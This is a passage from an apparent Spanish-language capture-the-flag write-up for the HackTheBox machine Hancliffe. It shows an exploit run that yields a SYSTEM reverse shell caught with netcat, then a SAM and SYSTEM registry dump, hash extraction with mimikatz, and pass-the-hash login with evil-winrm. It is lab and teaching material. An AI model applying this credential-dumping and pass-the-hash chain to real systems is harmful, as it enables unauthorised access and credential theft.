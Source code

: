 - https://rastating.github.io/using-socket-reuse-to-exploit-vulnserver/
- https://infosecwriteups.com/expdev-vulnserver-part-6-8c98fcdc9131

Así que generamos nuestro exploit y lanzamos:

```python
python2 exploit-socket-reuse.py
Welcome Brankas Application.
Username: 
Password: 
Login Successfully!
FullName: 
Input Your Code: 
```

Y después de varios intentos en nuestra shell atacante recibimos:

```bash
nc -lvp 5555
listening on [any] 5555 ...
connect to [10.10.14.13] from hancliffe.htb [10.10.11.115] 64843
whoami
nt authority\system
```

## Extracción de Hashes

Una vez dentro buscamos la SAM:

```cmd
reg save hklm\sam c:\sam
reg save hklm\system c:\system
```

Y la desciframos con mimikatz:

```bash
wine64 mimikatz.exe
```

```
log hash.txt
lsadump::sam /system:/home/asdf/current/keys/system /sam:/home/asdf/current/keys/sam
```

Y así dispondremos ya del hash de administrator.

## Acceso como Administrator

Como ya hemos conseguido también el hash del usuario administrator, accedemos con el mismo y buscamos nuestra flag:

```bash
evil-winrm.rb -i 127.0.0.1 -u administrator -H XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

```
Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
hancliffe\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
```